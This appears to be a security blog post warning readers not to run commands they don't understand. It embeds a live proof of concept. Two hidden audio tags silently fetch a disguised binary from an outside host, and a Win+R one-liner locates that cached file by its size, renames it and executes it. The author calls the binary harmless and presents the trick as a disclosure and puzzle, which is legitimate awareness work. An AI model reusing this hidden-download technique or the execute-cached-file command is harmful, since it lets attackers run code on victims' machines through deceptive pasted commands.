 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (vaguely similar to CVE-2011-0611), as well as a social engineering trick: a PoC binary will execute if this seemingly harmless command is entered in a **Win+R** prompt on a Windows system (Note that you may need to wait for a few seconds before the fun starts):

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium

